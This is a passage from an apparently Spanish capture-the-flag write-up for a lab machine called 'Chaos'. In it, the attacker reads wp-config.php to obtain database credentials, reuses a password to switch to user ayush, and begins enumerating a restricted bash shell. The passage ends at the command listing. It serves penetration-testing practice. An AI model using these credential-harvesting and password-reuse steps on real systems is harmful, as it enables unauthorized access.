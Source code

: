 Obtenemos el `usuario` y la `contraseña` de la base de datos de `WordPress`

```
www-data@chaos:/var/www/wordpress$ cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wp');

/** MySQL database username */
define('DB_USER', 'roundcube');

/** MySQL database password */
define('DB_PASSWORD', 'inner[OnCag8');
```

Nos convertimos en `Ayush` reutilizando la contraseña `jiujitsu`, pero nos encontramos en una `restricted bash`

```
www-data@chaos:/var/www/wordpress$ su ayush
Password: 
ayush@chaos:/var/www/wordpress$ whoami
rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
ayush@chaos:/var/www/wordpress$ cd /
rbash: cd: restricted
ayush@chaos:/var/www/wordpress$ echo $SHELL
/opt/rbash
```

Si pulsamos el `tabulador` dos veces, nos salen todos los `comandos` que podemos `ejecutar`

```
ayush@chaos:/tmp$ 
!                         caller                    disown                    fc                        let                       select                    type
./                        case                      do                        fg                        local                     set                       typeset
:                         cd                        done                      fi                        logout                    shift                     ulimit
[                         command                   echo                      for                       mapfile                   shopt                     umask
[[                        command_not_found_handle  elif                      function                  ping                      source                    unalias
]]                        compgen                   else                      getopts                   popd                      suspend                   unset
{                         complete                  enable                    hash                      printf                    tar                       until
```